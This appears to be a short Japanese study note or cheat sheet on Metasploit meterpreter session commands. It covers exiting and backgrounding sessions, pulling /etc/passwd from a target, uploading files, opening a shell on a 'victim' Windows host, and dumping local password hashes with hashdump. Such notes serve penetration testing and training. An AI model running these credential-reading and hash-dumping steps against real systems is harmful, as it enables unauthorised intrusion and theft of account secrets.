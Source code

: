 ## meterpreter 操作

### 終了方法について

```shell
# セッション終了
exit

# セッションを維持したまま、consoleに戻る。Ctrl+Z でも同じ。
background
# 後で続けられる
sessions -i <num>
```

### meterpreter コマンドの一覧

```shell
help
```

### ファイル送受信

```shell
download /etc/passwd ./passwd

upload ./test.txt /root/
```

### シェルを起動する

```shell
shell
Process 1234 created.
Channel 1 created.
Microsoft Windows [Version 10.0.19041.1237]
(c) 2020 Microsoft Corporation. All rights reserved.

C:\Users\victim> ipconfig
```

### hashdump

Windows の SAM（security acount manager）からローカルユーザーの播種情報を取得する

```shell
meterpreter > hashdump
```

### POST スクリプトの検索

```shell
# msfconsoleで
search post/linux
```
